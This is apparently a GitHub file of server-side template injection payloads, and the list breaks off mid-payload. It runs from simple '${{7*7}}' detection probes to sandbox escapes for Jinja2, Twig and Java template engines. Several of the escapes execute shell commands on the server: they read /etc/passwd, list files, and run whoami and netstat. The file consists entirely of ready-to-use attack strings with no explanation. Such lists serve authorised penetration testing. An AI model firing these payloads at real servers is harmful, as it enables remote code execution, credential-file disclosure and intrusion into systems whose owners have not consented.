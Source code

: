 # SSTI_Payloads

${{<%[%'"}}%.
${{7*7}}
${{3*'3'}}
<%= 3 * 3 %>
${6*6}
{{dump(app)}}
{{app.request.server.all|join(',')}}
{{config.items()}}
{{ [].class.base.subclasses() }}
{{''.class.mro()[1].subclasses()}}
{{ ''.__class__.__mro__[2].__subclasses__() }}
{{''.__class__.__base__.__subclasses__()}}
{{''.__class__.__base__.__subclasses__()[227]('cat /etc/passwd', shell=True, stdout=-1).communicate()}}
{{''.__class__.mro()[1].__subclasses__()[396]('cat /etc/passwd',shell=True,stdout=-1).communicate()[0].strip()}}
{{config.__class__.__init__.__globals__['os'].popen('ls').read()}}
{{'a'.getClass().forName('javax.script.ScriptEngineManager').newInstance().getEngineByName('JavaScript').eval("var x=new java.lang.String('xxx')")}}
{{'a'.getClass().forName('javax.script.ScriptEngineManager').newInstance().getEngineByName('JavaScript').eval("var x=new java.lang.ProcessBuilder; x.command("whoami"); x.start()")}}

{{'a'.getClass().forName('javax.script.ScriptEngineManager').newInstance().getEngineByName('JavaScript').eval("var x=new java.lang.ProcessBuilder; x.command("netstat"); org.apache.commons.io.IOUtils.toString(x.start().getInputStream())")}}

{{'a'.getClass().forName('javax.script.ScriptEngineManager').newInstance
